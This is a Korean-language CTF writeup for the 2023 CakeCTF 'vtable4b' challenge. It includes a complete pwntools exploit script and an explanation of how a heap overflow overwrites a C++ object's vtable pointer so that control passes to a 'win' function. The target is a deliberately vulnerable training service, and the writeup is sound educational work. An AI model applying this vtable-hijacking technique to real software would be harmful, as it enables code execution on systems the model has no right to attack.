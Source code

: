 ```yaml
---
title: "[2023CakeCTF] vtable4b"
tags:
- "CTF writeup"
---
```


# Exploit code
```python
from pwn import *

#언제 닫힐지 모르는 서버..
p = remote('vtable4b.2023.cakectf.com',9000)

p.recvuntil('<win> = ')
win = int(p.recvuntil('\n').strip(),16)

p.sendlineafter('> ',b'3')
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvuntil(b'0x')
base = int(p.recvn(12),16)

p.sendlineafter('> ', b'2')
p.sendlineafter('Message: ',p64(win)+b'A'*0x18+p64(base))
p.interactive()
```

# WriteUp
이 문제는 바이너리가 주어지지 않는다. 다만 nc로 붙여서 실행해 보면 많은 힌트를 얻을 수 있다.

```
Today, let's learn how to exploit C++ vtable!
You're going to abuse the following C++ class:

  class Cowsay {
  public:
    Cowsay(char *message) : message_(message) {}
    char*& message() { return message_; }
    virtual void dialogue();

  private:
    char *message_;
  };

An instance of this class is allocated in the heap:

  Cowsay *cowsay = new Cowsay(new char[0x18]());

You can
 1. Call `dialogue` method:
  cowsay->dialogue();

2. Set `message`:
  std::cin >> cowsay->message();

Last but not least, here is the address of `win` function which you should call to get the flag:
  <win> = 0x5603d347f61a

1. Use cowsay
2. Change message
3. Display heap
```

대강 보건대 vtable은 이중 포인터 방식으로 동작한다. 즉 단순히 함수의 위치를 가리키기만 해서는 원하는 함수를 실행시킬 수 없다. 정확히 작동시키기 위해서는 **함수를 가리키는 위치를 가리키게 해야 한다.**

3번을 입력하면 친절하게도 힙의 구조를 설명해준다. 주소는 물론 매 실행마다 바뀐다. 익스플로잇을 하려면 고정 주소가 아니라 실행 시 매핑된 주소를 불러올 수 있어야 할 것이다.

![]({{ 'assets/ctf/vtable/1.png' | relative_url }})

위 스크린샷은 어느 정도 오버플로를 시도한 예이다. 아마 Cowsay의 vtable을 덮어쓸 수 있을 것이고, 그 값은 첫 실행시 주어진 쉘을 실행시키는 함수의 주소를 가리키는 주소를 가리키는 값이여야 할 것이다.

그렇게 하기 위해서 다음과 같은 페이로드를 구상할 수 있다.

1. shell함수를 가리키는 값
2. 더미
3. 더미
4. 더미
5. (vtable for Cowsay) 1.을 가리키는 값

그렇게하면 5. -> 1. -> shell 실행 함수(win) 순으로 더블 포인팅되어 실행시킬 수 있을 것이다.

```python
payload = p64(win)+b'A'*0x18+p64(base)
```

win과 base의 주소는 어떻게 구할 수 있는가? 날아오는 문자열에서 잘 파싱하면 된다.

```python
p.recvuntil('<win> = ')
win = int(p.recvuntil('\n').strip(),16)
```
win의 경우 대놓고 주어지고

```python
p.sendlineafter('> ',b'3')
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvuntil(b'0x')
base = int(p.recvn(12),16)
```

base(문자열의 시작점)는 조금 더럽게 구했다. 그래도 잘 작동한다.

![]({{ 'assets/ctf/vtable/2.png' | relative_url }})

플래그의 경우는 혹시 몰라서 올려놓진 않는다.